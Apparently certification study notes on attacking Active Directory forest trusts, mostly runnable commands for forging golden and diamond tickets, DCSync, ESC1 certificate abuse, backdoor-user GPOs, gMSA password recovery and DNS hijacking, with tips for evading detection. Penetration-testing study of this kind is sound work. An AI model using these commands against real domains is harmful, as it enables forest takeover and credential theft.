




---
tags:
  - cape
  - crtp
  - active-directory
  - unconstrained-delegation
---

# Intra-Forest

In Active Directory (AD) environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

## sIDHistory

A key attribute in these trust-based escalations is [`sIDHistory`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory), which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through [**Trust Tickets**](cross-domain.md#trust-tickets) and [**ExtraSID injection**](cross-domain.md#extrasid-injection).

### Trust Tickets

Trust Tickets exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC.&#x20;

This TGT is encrypted with a **shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key (functionally similar to a machine account password) is the NTLM hash of the trust object and rotates every 30 days.

<div align="left"><figure><figcaption></figcaption></figure></div>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as Enterprise Admins (`519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user.&#x20;

This enables unauthorized access to services and systems in the parent domain.


```powershell
# Extract the trust key as a DA
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"

# Get the parent domain SID
Get-DomainSID -Domain moneycorp.local

# Forge an inter-realm TGT
.\Rubeus.exe silver /service:krbtgt/puppy.mollysec.local /rc4:<trust-key> /sid:<child-domain-SID> /sids:<parent-domain-SID>-519 /ldap /user:Administrator /nowrap

# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==

# Access the parent's domain resource
winrs -r:mcorp-dc.moneycorp.local cmd
```


Simirarly, from Linux:


```bash
# Execute the Golden Ticket attack including the target SIDs
impacket-ticketer -nthash 12b792603f994d46906474202b20b5d4 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache

# Get TGS using the forged TGT
impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Cache the ticket
export KRB5CCNAME=tgt@zsm.local

# DCSync
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```


### ExtraSID Injection

An attacker with control over a child domain can abuse the `krbtgt` secret to forge Kerberos tickets that impersonate privileged users in a trusted parent domain.

This approach builds upon the logic of cross-domain trust abuse but targets a different step in the Kerberos authentication flow, offering a more straightforward execution path with a bigger impact as the attack can access any resource on the parent domain's DC.

This method uses the RC4 hash of the child domain's `krbtgt` account to forge a standard [Golden Ticket](../persistence/golden-ticket.md). The critical twist is in **preloading the ticket with high-privilege SIDs from the parent domain**, typically by setting the `sIDHistory` to include the SID of the Enterprise Admins group (`519`).

When this forged TGT is presented to the child DC to request access to a parent domain service, the resulting inter-realm TGT is generated with the maliciously inserted `sIDHistory` intact. The parent domain then validates and honors the ticket, effectively granting EA privileges to an attacker-controlled principal.

<div align="left"><figure><figcaption></figcaption></figure></div>

This approach is particularly advantageous because it targets the step before the inter-realm TGT is created. It avoids the need to compromise the trust account itself, relying only on the child domain’s `krbtgt` secret, which is often easier to obtain. The result is elevated access to the parent domain, including the ability to authenticate to its DCs, which normally disallows logons from users in child domains.


**OPSEC**: The Diamond ticket is the most OPSEC-friendly option.


We need the following pre-requisites:

* `krbtgt` hash of the child domain
* SID of the child domain
* Any domain user in the child domain
* FQDN of the child domain
* SID of the target group (e.g. EA) of the root domain


```powershell
# krbtgt hash of child domain
.\mimikatz.exe "lsadump::dcsync /user:DEV\krbtgt" "exit"

# SID of the child domain (PowerView)
Get-DomainSID

# SID of EA (AD module)
Get-ADGroup -Identity "Enterprise Admins" -Server "mollysec.local"


# Golden ticket
.\Rubeus.exe golden /rc4:992093609707726257e0959ce3e23771 /domain:puppy.mollysec.local /sid:S-1-5-21-2901893446-2198612369-2488268719 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /user:Administrator /ptt

# Same
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:puppy.mollysec.local  /sid:S-1-5-21-2901893446-2198612369-2488268719 /krbtgt:992093609707726257e0959ce3e24771 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /ptt" "exit"

# Access the target
ls \\DC01\c$\Users\Administrator\Desktop
```


Similarly, from Linux:


```bash
# krbtgt hash of child domain
secretsdump.py puppy.mollysec.local/Administrator:'Password123!'@10.129.229.207 -just-dc-user DEV/krbtgt

# SID of the child domain
lookupsid.py puppy.mollysec.local/Administrator:'Password123!'@10.129.229.207 | grep "Domain SID"

# SID of EA (with tunnel set up)
lookupsid.py puppy.mollysec.local/Administrator:'Password123!'@172.16.210.99 | grep -B12 "Enterprise Admins"

# Golden ticket
ticketer.py -nthash 992093609707726257e0959ce3e23771 -domain puppy.mollysec.local -domain-sid S-1-5-21-2901893446-2198612369-2488268719 -extra-sid S-1-5-21-2879935145-656083549-3766571964-519 henry

# Access the root DC
export KRB5CCNAME=henry.ccache 
psexec.py puppy.mollysec.local/henry@mollysec-dc01.mollysec.local -k -no-pass -target-ip 172.16.210.99
```


Or, more efficiently:


```bash
raiseChild.py -target-exe 172.16.210.99 puppy.mollysec.local/administrator:'Password123!'
```



```powershell
#--------------------------------#
# Golden Ticket as Administrator #
#--------------------------------#

# Execute the Golden Ticket attack including the target SIDs
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt

# Access the parent domain's DC
winrs -r:mcorp-dc cmd
```


However, when an Administrator from the child domain logs in interactively to the forest root DC, it generates alerts (event ID 4672), alerting on **high-privilege logons from unexpected accounts**.

Instead of impersonating an administrator directly, the forged ticket can represent the **machine account of the child domain’s DC**, combined with SIDs for DCs (`-516`) and Enterprise DCs (`S-1-5-9`). This simulates **legitimate replication behavior between domains and bypasses interactive logon restrictions**. Because it mimics legitimate DC-to-DC replication, this variant often evades detections, even those from advanced defenders like MDI.


```powershell
# Execute the GT attack including the target SIDs
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Execute the GT attack including the target SIDs
.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt

# DCSync to extract the forest root's krbtgt credentials
.\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```


For improved OPSEC, [Diamond Tickets](../persistence/diamond-ticket.md) can be used in place of traditional Golden Tickets. Diamond Tickets **resemble legitimate Kerberos requests and include a corresponding TGT request**, making them less suspicious.


```powershell
.\Rubeus.exe diamond /krbkey:<krbtgt-aes256key> /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /tickeruserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```


From Linux:


```bash
# Get TGT for the target (krbtgt hash of the child domain)
impacket-ticketer -nthash 0540fe51ddd618f42a66ef059ac36441 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache

# Get TGS using the forged TGT
impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Cache the ticket
export KRB5CCNAME=tgt@zsm.local

# DCSync
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```


## Unconstrained Delegation

DCs have [unconstrained delegation](delegations.md#unconstrained) enabled by default. As a result, if the child domain's DC is compromised, it can be leveraged for compromising the parent domain's DC.


```powershell
# Monitor for TGTs
.\Rubeus.exe monitor /interval:5 /nowrap /targetuser:DC01$
...

# Coerce authentication from DC01 to DC02
.\SpoolSample.exe dc01.mollysec.local dc02.puppy.mollysec.local

# Get a new TGT as DC01$
.\Rubeus.exe renew /ticket:doI... /ptt

# DCSync
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:mollysec.local /user:500" "exit"
```


## Configuration NC Abuse

The [Configuration Naming Context](https://learn.microsoft.com/en-us/windows/win32/ad/naming-contexts-and-partitions) (NC) (`CN=Configuration,DC=mollysec,DC=local`) is the primary repository for configuration information for a forest and is replicated to every DC in the forest.

Every change made to an object within the Configuration NC will be replicated downwards to all domains within the forest. More importantly, the reverse is also true: every change made to an object of a child domain, will be replicated upwards to the root domain.

On each DC, the `SYSTEM` account can modify the Configuration NC:

```powershell
# Enumerate ACLs in the target container
> $dn = "CN=Configuration,DC=MOLLYSEC,DC=LOCAL"
> $acl = Get-Acl -Path "AD:\\$dn"
> $acl.Access | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|Write" }
...
ActiveDirectoryRights : GenericAll
IdentityReference     : NT AUTHORITY\\SYSTEM
```

### AD CS

The Configuration NC stores information about the [AD CS](../general/authentication/ad-cs.md) within various containers:

* **Certificate Templates** stores templates as `pKICertificateTemplate` objects.
* **Enrollment Services** stores one `pKIEnrollmentService` object per CA and its `certificate Templates` attributes list the published certificates.

<figure><figcaption></figcaption></figure>

This attack leverages the fact that **`SYSTEM` has `FullControl` over the Public Key Services container**. This allows us to create and publish a malicious template, which will then be replicated across the forest and becomes available to the CA.

1. Launch `MMC` as `SYSTEM` and add the Certificate Templates snap-in:


```powershell
# Open MMC as SYSTEM
.\PsExec -s -i powershell
mmc

# If the Certificate Templates snap-in is missing, install it
Install-WindowsFeature RSAT-ADCS
```


<div align="left"><figure><figcaption></figcaption></figure></div>

2. Duplicate the `User` template and create a new vulnerable one within and assign to the `Administrator` of the child domain `FullControl` over the template. In this instance, we created the `UserNew` template and made it vulnerable to [ESC1](adcs.md#esc1):

<figure><figcaption></figcaption></figure>

3. The next step if publishing the `UserNew` template via the `pKIEnrollmentService` attribute. However, `SYSTEM` does not have any kind of access over the target object:


```powershell
# Open AdsiEdit as SYSTEM
.\PsExec -s -i powershell
adsiedit
```


<figure><figcaption></figcaption></figure>

4. The `SYSTEM` account has `FullControl` over the **Public Key Services** container, so we can leverage **permissions inheritance**. We will modify the security descriptor for the Public Key Services container and gain the same rights over `pKIEnrollmentService`:

<figure><figcaption></figcaption></figure>

<div align="left"><figure><figcaption></figcaption></figure></div>

5. Confirm that `SYSTEM` has `FullControl` over the Enrollment Services and publish the `UserNew` template via modifying the `certificate Templates` attribute of the `pKIEnrollmentService` object:

<figure><figcaption></figcaption></figure>

5. Perform the [ESC1](adcs.md#esc1) attack chain:


```bash
# CSR impersonating the EA
$ certipy req -u puppy-da -p $(cat password) -template UserNew -upn molly-ea@mollysec.local -ca MOLLYSEC-CA -dc-ip 192.168.239.134 -target-ip 192.168.239.135
...
[*] Wrote certificate and private key to 'molly-ea.pfx'

# Authenticate as the EA
$ certipy auth -pfx molly-ea.pfx -dc-ip 192.168.239.134 -domain mollysec.local
...
[*] Wrote credential cache to 'molly-ea.ccache'
[*] Got hash for 'molly-ea@mollysec.local': ...:2b5...

# Validate credentials
$ nxc smb mollysec-dc01 -u molly-ea -H 2b5... -d mollysec.local
...
SMB  192.168.239.134  445  MOLLYSEC-DC01  [+] mollysec.local\molly-ea:******** (Pwn3d!)
```



```powershell
# CSR as Administrator of the root domain
> .\Certify.exe request /ca:mollysec.local\MOLLYSEC-DC01-CA /domain:mollysec.local /template:"ESC1" /altname:MOLLYSEC\Administrator

# Ensure proper PEM format PEM
$ sed -i 's/\s\s\+/\n/g' cert.pem

# Convert PEM to PFX
> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# TGT as parent's domain Administrator
> .\Rubeus.exe asktgt /domain:mollysec.local /user:Administrator /certificate:cert.pfx /ptt
```


### GPO On Site

A malicious GPO can be created and then linked (as `SYSTEM`) from a child domain to a root domain.


```powershell
# Create a malicious GPO
New-GPO "badGPO"
```


Create a malicious task within the target GPO using [`pygpoabuse`](https://github.com/Hackndo/pyGPOAbuse). In this case, we will create a new user and add them to local Administrators group:


```bash
# Create a scheduled task within the GPO
$ pygpoabuse puppy.mollysec.local/puppy-da:"Password123!" -gpo-id "B477332B-DECA-4A87-9249-AFE70874947E" -command "net user backdoorUser Password1234 /add && net localgroup Administrators backdoorUser /add" -taskname "badTask-LA" -description "Not tellling you!" -dc-ip 192.168.239.133 -v
[*] Version updated
[+] ScheduledTask badTask-LA created!
```


Confirm that the task was created via the GUI:

<figure><figcaption></figcaption></figure>

Modify the task's settings to ensure that it will run multiple times:

<div align="left"><figure><figcaption></figcaption></figure></div>

Enumerate the DN of the root's domain replication site, link the GPO from a `SYSTEM` shell, and then request a TGT ([`Invoke-Rubeus.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Rubeus.ps1)):


```powershell
# Enumerate the replication site of the root domain
> Get-ADDomainController -Server mollysec.local | Select ServerObjectDN                             
ServerObjectDN
--------------
CN=MOLLYSEC-DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=mollysec,DC=local

# Elevate to a SYSTEM shell
> .\PsExec.exe -s -i powershell.exe

# Link the malicious GPO to the default site from the SYSTEM shell
> $sitePath="CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=mollysec,DC=local"
> New-GPLink -Name "badGPO" -Target $sitePath -Server puppy.mollysec.local

GpoId       : b477332b-deca-4a87-9249-afe70874947e
DisplayName : badGPO
Enabled     : True
Enforced    : False
Target      : CN=Default-First-Site-Name,cn=Sites,CN=Configuration,DC=mollysec,DC=local
Order       : 1

# Get TGT as the new user
> Invoke-Rubeus -Command "asktgt /user:backdoorUser /password:Password1234 /domain:mollysec.local /ptt"
```


Validate the credentials remotely:


```powershell
# Validate credentials
$ nxc smb mollysec-dc01 -u backdoorUser -p Password1234
...
SMB  192.168.239.134 445  MOLLYSEC-DC01  [+] mollysec.local\backdoorUser:******** (Pwn3d!)
```


### GoldenGMSA

[Group Managed Service Accounts (gMSAs)](https://learn.microsoft.com/en-us/entra/architecture/service-accounts-group-managed) let Windows handle service account password management automatically, removing that burden from administrators. They’re commonly used for services that run on multiple machines, such as IIS applications, SQL Server, backup software, scheduled tasks, and directory‑sync services, where the same domain credential must be shared and rotated without manual intervention.

The **KDS (Key Distribution Service) Root Key** enables AD to deterministically generate gMSA passwords. AD stores a KDS Root Key object in the directory; when a machine requests a gMSA password, a DC derives the password on demand using a mathematical function that combines:

* the KDS Root Key
* the gMSA’s SID
* time‑based values tied to the password rotation interval

Because the password is generated rather than stored, possession of the KDS Root Key (or read access to the `msDS-ManagedPassword` attribute / [`ReadGMSAPassword`](../permissions/readgmsapassword.md) on the key object) would allow an attacker to reconstruct the current password for any gMSA.


```powershell
# Create the KDS root key object on the root DC
Add-KdsRootKey -EffectiveTime ((Get-Date).AddHours(-10))

# Create a new gMSA account and assign the EA the ability to read its password
New-ADServiceAccount -Name "gmsa_acc" -DNSHostName "mollysec.local" -PrincipalsAllowedToRetrieveManagedPassword "molly-ea" -Enabled $True
```


Popular tools can typically dump only the gMSA password of the same domain. However, [GoldenGMSA](https://github.com/Semperis/GoldenGMSA) or [pyGoldenGMSA](https://github.com/felixbillieres/pyGoldenGMSA) can help us when we have compromised a child domain and we want to get access to the root domain's gMSA account(s).

To use it we need access to various attributes of the **KDS Root Key** object which can be obtained by the `msKds-ProvRootKey` class under the following container of the parent domain:


```
CN=Master Root Keys,CN=Group Key Distribution Service,CN=Services,CN=Configuration,DC=mollysec,DC=local
```


This class can be accessed only by EAs, root domain DAs, and `SYSTEM`-level access on a DC.

<div align="left"><figure><figcaption></figcaption></figure></div>

As shown below, a normal DA on a child domain cannot enumerate the `msKds-ProvRootKey` class, but the same DA can when `adsiedit.msc` is launched from a `SYSTEM` shell:

<figure><figcaption></figcaption></figure>

#### **Online Attack**


```powershell
# Spawn a SYSTEM shell
.\PsExec.exe -i -s powershell

# Enumerate the SID of the gMSA account in the root domain
.\GoldenGMSA.exe gmsainfo --domain inlanefreight.ad

# Retrieve the gMSA password
.\GoldenGMSA.exe compute --sid "S-1-5-21-...-1120" --forest puppy.mollysec.local --domain mollysec.local
```


The gMSA account SID can be also enumerated locally:


```bash
# Enumerate the SID of the gMSA account in the root domain
$ uv run main.py -u 'puppy-da@puppy.mollysec.local' -p 'Password123!' -d mollysec.local --dc-ip 192.168.239.134 gmsainfo
...
sAMAccountName:         gmsa_acc$
objectSid:              S-1-5-21-...-1120
distinguishedName:      CN=gmsa_acc,CN=Managed Service Accounts,DC=mollysec,DC=local
rootKeyGuid:            9a8930fa-93bf-b391-7b54-fcd39e5cd4ba
msDS-ManagedPasswordId: AQAA...AAAAA==
----------------------------------------------
```


Convert the encrypted gMSA password to an NT hash ([`gMSA2NT.py`](https://github.com/CSpanias/ctf-scripts/blob/main/gMSA2NT.py)):


```bash
$ uv run gMSA2NT.py
Base64: kYVU...29wQ==

NT Hash: 5b3e1714c0afc9c4ecd6183c289122f0
```



```powershell
# Request a TGT
.\Rubeus.exe asktgt /user:gmsa_acc$ /rc4:5b3e1714c0afc9c4ecd6183c289122f0 /domain:mollysec.local /ptt
```


#### **Offline**


```powershell
# SYSTEM shell
.\PsExec.exe -i -s powershell

# Enumerate the SID and msds-ManagedPasswordID
> .\GoldenGMSA.exe gmsainfo --domain mollysec.local

sAMAccountName:         gmsa_acc$
objectSid:                      S-1-5-21-...-1120
rootKeyGuid:            9a8930fa-93bf-b391-7b54-fcd39e5cd4ba
msds-ManagedPasswordID: AQAA...AAAAA==

# Enumerate kdsinfo from the child domain
> .\GoldenGMSA.exe kdsinfo --forest puppy.mollysec.local
Guid:           9a8930fa-93bf-b391-7b54-fcd39e5cd4ba
Base64 blob:    AQAA...iClo=

# Retrieve the gMSA password
 > .\GoldenGMSA.exe compute --sid "S-1-5-21-...-1120" --kdskey AQA...Clo= --pwdid AQA...AAA==
```


The password retrieval can be also performed locally after enumerating all the details:


```bash
# Retrieve the gMSA password
$ uv run main.py compute  --sid "S-1-5-21-...-1120" --kdskey AQA...Clo= --pwdid AQA...AAA==

NT Hash:                9cf37d5655f06d8d5e4b0cb71359d6c1
NT Hash (LM:NT):        aad3b435b51404eeaad3b435b51404ee:9cf37d5655f06d8d5e4b0cb71359d6c1
Password Blob (Base64): kYV...9wQ==
```


### DNS Trust

#### DNS Wildcard Injection

A DNS wildcard record is a catch‑all that matches any unresolved name under a zone. By injecting a wildcard entry, for example:


```
DC=*,DC=mollysec.local,CN=MicrosoftDNS,DC=DomainDNSZones,DC=mollysec,DC=local
```


&#x20;and pointing it at an attacker‑controlled IP, all non‑existent hostnames under the parent domain (e.g., `*.mollysec.local`) will resolve to the attacker’s address.

`SYSTEM`-level access to a child DC has `FullControl` over the DNS records of the parent domain:

<figure><figcaption></figcaption></figure>


```powershell
# Resolve a non-existing subdomain
> Resolve-DNSName nonExistingDomain.mollysec.local
Resolve-DNSName : nonExistingDomain.mollysec.local : DNS name does not exist
```


We can inject a wildcard record using [`Powermad`](https://github.com/Kevin-Robertson/Powermad):

* The `-Tombstone` flag puts the created node into a state that allows any authenticated user to modify or completely tombstone it. By tombstoning it, we mean that we mark it as deleted, while keeping it temporarily so the deletion can be synchronized with other servers before it’s permanently removed.
* In addition, the `-Data <IP-address>` is omitted as it defaults to the source IP address


```powershell
# Launch a SYSTEM shell
> .\PsExec -s -i powershell

# Inject a wildcard record
> New-ADIDNSNode -Node * -domainController mollysec-dc01.mollysec.local -Domain mollysec.local -Zone mollysec.local -Tombstone -Verbose
VERBOSE: [+] Forest = mollysec.local
VERBOSE: [+] Distinguished Name = DC=*,DC=mollysec.local,CN=MicrosoftDNS,DC=DomainDNSZones,DC=mollysec,DC=local
VERBOSE: [+] Data = 192.168.239.133
VERBOSE: [+] DNSRecord = 04-00-01-00-05-F0-00-00-65-00-00-00-00-00-02-58-00-00-00-00-4E-E0-38-00-C0-A8-EF-85
[+] ADIDNS node * added
```


<figure><figcaption></figcaption></figure>


```powershell
# Resolve a non-existing subdomain
> Resolve-DnsName nonExistingDomain.mollysec.local

Name                                           Type   TTL   Section    IPAddress
----                                           ----   ---   -------    ---------
nonExistingDomain.mollysec.local               A      556   Answer     192.168.239.133
```


The attack could be then intercept traffic and capture or [relay](ntlm-relay.md) users credentials.

#### Arbitrary DNS Record Modification

`SYSTEM`-level access on a child DC gives us the ability to enumerate all parent‑domain DNS records.


```powershell
> Get-DnsServerResourceRecord -ComputerName mollysec-dc01.mollysec.local -ZoneName mollysec.local -Name "@"

HostName                  RecordType Type       Timestamp            TimeToLive      RecordData
--------                  ---------- ----       ---------            ----------      ----------
@                         A          1          22/03/2026 09:00:00  00:10:00        192.168.239.134
@                         NS         2          0                    01:00:00        mollysec-dc01.mollysec.local.
@                         SOA        6          0                    01:00:00        [102][mollysec-dc01.mollysec.local.][hostmaster...
*                         A          1          23/03/2026 15:00:00  00:10:00        192.168.239.133
CA-01                     A          1          22/03/2026 09:00:00  00:20:00        192.168.239.135
mollysec-dc01             A          1          0                    01:00:00        192.168.239.134
```


If an existing DNS record is altered, e.g., changing the IP for `test.mollysec.local`, clients attempting to access `\\test.mollysec.local\test-share` can be redirected to an attacker‑controlled host. The TTL value below is set to a low value to allow for fast propagation of the update record:


```powershell
# Modify the DNS record for the target server
> $Old = Get-DnsServerResourceRecord -ComputerName MOLLYSEC-DC01.MOLLYSEC.LOCAL -ZoneName mollysec.local -Name TEST01
> $New = $Old.Clone()
> $TTL = [System.TimeSpan]::FromSeconds(1)
> $New.TimeToLive = $TTL
> $New.RecordData.IPv4Address = [System.Net.IPAddress]::parse('172.16.210.3')
> Set-DnsServerResourceRecord -NewInputObject $New -OldInputObject $Old -ComputerName mollysec-dc01.mollysec.local -ZoneName mollysec.local
> Get-DnsServerResourceRecord -ComputerName MOLLYSEC-DC01.MOLLYSEC.LOCAL -ZoneName mollysec.local -Name "@"
```


This enables interception of SMB traffic, NTLM credential capture, and facilitates MitM or DoS attacks against the service:


```powershell
# Intercept traffic
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y -SMB Y
```



```bash
# Crack the NTLMv2 hash
hashcat -m 5600 poppy_ntlmv2 /usr/share/wordlists/rockyou.txt
```



```powershell
# Get a TGT as the compromised user
.\Rubeus.exe asktgt /user:poppy /domain:mollysec.local /password:'Password123!' /ptt
```


## Foreign Groups & Principals

### Foreign Groups

Foreign users or groups are accounts that belong to a child domain but have permissions or group memberships in the parent domain. This means users from one domain can access resources in another domain within the same forest.

AD security groups have different [**scopes**](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#group-scope), which define where members can come from and where the group can be used:

<table><thead><tr><th width="132">Scope</th><th>Can Include</th></tr></thead><tbody><tr><td>Global</td><td>User accounts  or other global groups from the same domain.</td></tr><tr><td>Universal</td><td>User accounts, global groups, or other universal groups from <strong>any domain in the same forest</strong>.</td></tr><tr><td>Domain Local</td><td>User accounts, global groups, universal groups, other domain local groups from <strong>any domain, trusted domain, external forests or external domains.</strong></td></tr><tr><td>Built-in Local</td><td>Prefedined groups in the Built-in container.</td></tr></tbody></table>

The parent domain can add users from a child domain to Universal or Domain Local groups in the parent domain. This allows child domain users to access resources located in the parent domain.


```powershell
# Enumerate child domain users that are members of parent domain's groups (PowerView)
> Get-DomainForeignUser

UserDomain             : dev.INLANEFREIGHT.AD
UserName               : jerry
GroupDomain            : INLANEFREIGHT.AD
GroupName              : Inlanefreight_admins

# Enumerate the target group
> Get-DomainGroup -Identity 'Inlanefreight_admins' -domain inlanefreight.ad

grouptype             : UNIVERSAL_SCOPE, SECURITY
samaccountname        : Inlanefreight_admins
objectsid             : S-1-5-21-2879935145-656083549-3766571964-2108
memberof              : CN=Account Operators,CN=Builtin,DC=INLANEFREIGHT,DC=AD
member                : CN=jerry,CN=Users,DC=dev,DC=INLANEFREIGHT,DC=AD

# Filtering for nested memberships
> Get-DomainGroup -Identity 'Inlanefreight_admins' -domain inlanefreight.ad | select memberof

memberof
--------
CN=Account Operators,CN=Builtin,DC=INLANEFREIGHT,DC=AD

# Impersonate the target user
> .\Rubeus createnetonly /program:powershell.exe /show
> .\Rubeus.exe asktgt /user:jerry /password:jerry /domain:dev.inlanefreight.ad /ptt

# Create a new user in the parent domain and add them to the DnsAdmins group (PowerView)
> $SecPassword = ConvertTo-SecureString 'T3st@123' -AsPlainText -Force
> New-DomainUser -Domain inlanefreight.ad -SamAccountName testuser -AccountPassword $SecPassword
> Add-ADGroupMember -identity "DNSAdmins" -Members testuser -Server inlanefreight.ad
```


### Foreign Principals

Child domain objects can have ACLs on parent domain objects.


```powershell
# Enumerate ACLs (PowerView)
> $sid = Convert-NameToSid rita
> Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain inlanefreight.ad | ? {$_.SecurityIdentifier -eq $sid}
...
ObjectDN              : CN=Infrastructure,CN=Users,DC=INLANEFREIGHT,DC=AD
ActiveDirectoryRights : GenericAll
ObjectSID             : S-1-5-21-2879935145-656083549-3766571964-2110
SecurityIdentifier    : S-1-5-21-2901893446-2198612369-2488268719-2103

# Impersonate rita
> .\Rubeus createnetonly /program:powershell.exe /show
> .\Rubeus.exe asktgt /user:rita /password:rita /domain:dev.inlanefreight.ad /ptt

# Add herself in the target group (PowerView)
> Add-DomainGroupMember -identity 'Infrastructure' -Members 'DEV\rita' -Domain inlanefreight.ad -Verbose

# Confirm
> Get-DomainGroupMember -Identity 'Infrastructure' -Domain inlanefreight.ad -Verbose
```


We can also enumerate all foreign ACLs for all principals:


```powershell
$Domain = "inlanefreight.ad"
$DomainSid = Get-DomainSid $Domain

Get-DomainObjectAcl -Domain $Domain -ResolveGUIDs -Identity * | ? { 
	($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner') -and `
	($_.AceType -match 'AccessAllowed') -and `
	($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and `
	($_.SecurityIdentifier -notmatch $DomainSid)
}
```



```powershell
> Import-Module .\PowerView.ps1
> .\get-all-foreign-acl.ps1
...
ObjectDN              : CN=Enterprise Key Admins,CN=Users,DC=INLANEFREIGHT,DC=AD
ActiveDirectoryRights : GenericAll
ObjectSID             : S-1-5-21-2879935145-656083549-3766571964-527
SecurityIdentifier    : S-1-5-21-2901893446-2198612369-2488268719-2106 

> ConvertFrom-SID S-1-5-21-2901893446-2198612369-2488268719-2106
DEV\sentinal

# Impersonate sentinal
> .\Rubeus createnetonly /program:powershell.exe /show
> .\Rubeus.exe asktgt /user:sentinal /password:sentinal /ptt

# Add herself in the target group (PowerView)
> Add-DomainGroupMember -identity 'Enterprise Key Admins' -Members 'DEV\sentinal' -Domain inlanefreight.ad -Verbose

# Shadow Credentials attack over the root DC
> .\Whisker.exe add /target:DC01$ /domain:inlanefreight.ad

# Impersonate the DC
> .\Rubeus.exe asktgt /user:DC01$ /certificate:MII... /domain:inlanefreight.ad /dc:DC01.INLANEFREIGHT.AD /getcredentials /show
...
NTLM                     : EFBE21F17FB63C4110595441D9247E49

# Impersonate the Admin on DC via S4U2Self
> .\Rubeus.exe s4u /dc:DC01.inlanefreight.ad /ticket:doI... /impersonateuser:administrator@inlanefreight.ad /ptt /self /service:host/DC01.inlanefreight.ad /altservice:cifs/DC01.inlanefreight.ad

# Access the target
> dir \\DC01.inlanefreight.ad\c$
```

